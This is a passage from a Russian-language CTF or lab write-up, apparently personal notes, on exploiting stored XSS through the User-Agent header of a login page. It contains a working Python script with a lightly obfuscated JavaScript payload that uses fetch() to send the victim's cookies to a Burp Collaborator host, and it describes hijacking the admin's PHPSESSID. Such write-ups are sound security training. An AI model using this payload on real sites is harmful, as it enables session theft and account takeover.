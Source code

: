 ````python 
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
![[Pasted image 20240313002825.png]]**Отлично**!
Вспоминаем зачем нам потребовался коллаборатор в бурпе.
Данное значение, которое только вывели в alert, мы будем ловить на его **сервер**.

Для понимания как это работает.
![[Pasted image 20240313003642.png]]
1) Переходим в вкладку
2) Копируем **url**
3) Переходим по ней в google
4) Нажимаем **Poll now**, чтобы получить с сервера данные.
5) Если окошко как на фото снизу не появляется, то нажмите на "+. Это создаст новую сессию и обновит окошко.
![[Pasted image 20240313003239.png]]
Мы только что поймали наш request и можем его детально рассмотреть.
Эта функция заменит нам ngrok или свой белый IP и сервер, очень удобно.
Копируем и вставляем в скрипт.


````python 
import requests


payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{{СЮДА}}/?${vv}=` + document[vv]; fetch(payload);</script>'

user = "admin" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````

Отправляем, ждем, пуллим.
![[Pasted image 20240313004232.png]]
Вуаля! Подставим значение PHPSESSID в наш браузер. 
![[Pasted image 20240313004351.png]]![[Pasted image 20240313004408.png]]
На сегодня все!